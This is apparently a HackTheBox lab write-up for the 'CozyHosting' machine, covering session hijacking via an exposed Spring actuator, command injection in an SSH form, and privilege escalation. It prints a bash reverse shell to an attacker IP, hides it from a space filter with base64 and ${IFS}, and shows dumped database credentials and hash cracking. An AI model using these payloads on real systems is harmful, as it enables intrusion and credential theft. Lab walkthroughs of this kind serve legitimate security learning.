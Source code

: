 ```yaml
---
slug: /write-up/htb/easy/cozy-hosting
pagination_next: null
pagination_prev: null
draft: true
---
```


## Enumeration

Initial scans shows exposed ports 22 and 80

Looks like it's trying to redirect to `http://cozyhosting.htb`. Let's add it to the `/etc/hosts`

```bash
curl -I cozyhosting.htb
HTTP/1.1 200 
Server: nginx/1.18.0 (Ubuntu)
Date: Thu, 21 Sep 2023 19:13:45 GMT
Content-Type: text/html;charset=UTF-8
Connection: keep-alive
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
Content-Language: en-US
```

Let's try to explore the directories with gobuster and it could not find anything.

Checking the headers, looks like the Content-Type is application/json, so probably there's an API behind

Checking the error pages seems the one generated by Spring Framework. We can probe that by checking if it has the `/actuator` endpoint public.

Probably the nginx server is acting as a proxy since the actuator returns localhost:8080 as the API address

`/actuator/sessions` returns interesting data:

```
{"71555732BBE84C711A910118954B72C3":"kanderson","24BF9E9AC99A7F02F4006F36634DB3F1":"UNAUTHORIZED","3C47D6E35D00F4B01B7EF0EE5F3305FA":"UNAUTHORIZED","217ABE7CFC46C07AF69818945F9B702E":"kanderson"}
```

## Foothold

If we check the page, looks like there's a login page, if we change the `JSESSIONID` cookie by the value in the `/actuator/sessions` for user `kanderson`, we'll be redirected to the `/admin` page.

Once we enter the admin page we see a form that if we send it will call the `/executessh` endpoint ...

From the error, we could think that is calling the ssh command directly, so maybe this is vulnerable to command injection. We can try to get the output of `id` command.

Looks like hostname is validated somehow, however with username we can break the command execution:

```bash
curl -vvvvv 'http://cozyhosting.htb/executessh' -X POST \
-H 'Content-Type: application/x-www-form-urlencoded' \
-H 'Cookie: JSESSIONID=B762D32C36AE8003E582400AC70E4261' \
--data-raw 'host=localhost&username=`id`'
```

It's pretty hard to know how to make the command execution works, you need to try several combinations with `\`` and `;` and eventually got it working. Now let's open a reverse shell. In order to get the reverse shell, take into account that username cannot have spaces, a minimal validation is done.


To generate the payload that generates the reverse shell:

1. Search a payload here: https://www.revshells.com/
```
/bin/bash -i >& /dev/tcp/10.10.14.183/4444 0>&1
```
2. Let's base64 it:
```
echo "bash -i >& /dev/tcp/10.10.14.183/4444 0>&1" | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xODMvNDQ0NCAwPiYxCg==
```
3. Make the payload: echo the base64 payload, then base64 decode the payload and let bash run the payload:
```
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xODMvNDQ0NCAwPiYxCg== | base64 -d | bash
```
You can run that payload and it should create a new connection to the listening nc

4. The endpoint don't link spaces, so let's replace it for the IFS character:

`echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xODMvNDQ0NCAwPiYxCg=="${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash`

However, if we try that payload, it will complain about whitespaces...

5. Do URL-encode and it will work

Now we have foot-hold in the machine but without a relevant user

## Lateral movement

if we do ls we can see a jarfile, let's download it. Searching inside the jar file, we see a promising thing, the configuration for the postgres database:

```conf
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

```bash
psql --user postgres --host localhost --port 5432 --password
```

We can find the users database:

```bash
   name    |                           password                           | role
  
-----------+--------------------------------------------------------------+-----
--
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admi
n
```

The password for `kanderson` can be seen in the code and is `MRdEQuv6~6P9`

Nothing seems to indicate the password for user `josh`. Let's try to crack the password for admin with john the ripper:

```bash
john exfil/hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

With that password, we can now enter the ssh with user `josh` and we are in and we can read the user flag.

## Privilege escalation

`sudo -l` shows that the user `josh` can run ssh with root privileges, let's check in GTFO bins how to use it to get root access.
